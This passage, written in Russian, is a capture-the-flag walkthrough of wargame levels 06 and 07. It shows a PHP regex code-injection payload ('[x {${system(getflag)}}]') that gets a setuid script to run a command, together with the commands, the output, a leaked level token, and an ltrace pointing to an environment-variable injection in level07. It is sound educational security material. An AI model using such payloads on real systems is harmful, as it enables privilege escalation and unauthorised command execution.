 https://regexr.com/ \
визуализирует регулярное выражение \
[x fsdg] подсветит, то есть что-то, что начинается "[x ", далее "." - это 1 любой символ, "*" - сколько угодно символов, далее "]". Значит, что будет вызвана функция у с fsdg.
```pl
$r = x($argv[1], $argv[2]); х вызывается с агрументами
function x($y, $z) { 
    $a = file_get_contents($y); 
file_get_contents - читает содержимое файла
```
Создаю файл и передаю его в аргументы с содержимым: \
2 варианта: 
```pl
[x ${`getflag`}]
[x {${system(getflag)}}]
```
Подробнее про такой синтаксис `{${}}` \
echo "This is the value of the var named by the return value of getName(): {${getName()}}" \
https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.simple

в php \` \` отработает как функция system
```sh
echo '[x {${system(getflag)}}]' > /tmp/myy
```
где ${} позволят вставить значение `exec(getflag)`, то есть `exec(getflag)` не текст будет, а вызовется функция. Это нужно, потому что здесь  двойные кавычки `y(\"\\2\")`.

Запускаю программу:
```sh
./level06 /tmp/myy gdfgdfgh
# ||
# \/
# PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
# Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
# PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1

su level07 wiok45aaoguiboiki2tuin6ub
```

#
###### [вернуться к содержанию](#content)
<a name="lvl07"></a> 
# level07

1. Проверяю содержимое директории:
```sh
ls -la
# ||
# \/
# -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

ltrace ./level07 
# ||
# \/
```
```sh
__libc_start_main(0x8048514, 1, 0xbffff6f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                 = 2007
geteuid()                                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                       = 0
getenv("LOGNAME")                                                         = "level07"
asprintf(0xbffff644, 0x8048688, 0xbfffff27, 0xb7e5ee55, 0xb7fed280)       = 18
system("/bin/echo level07 "level07
```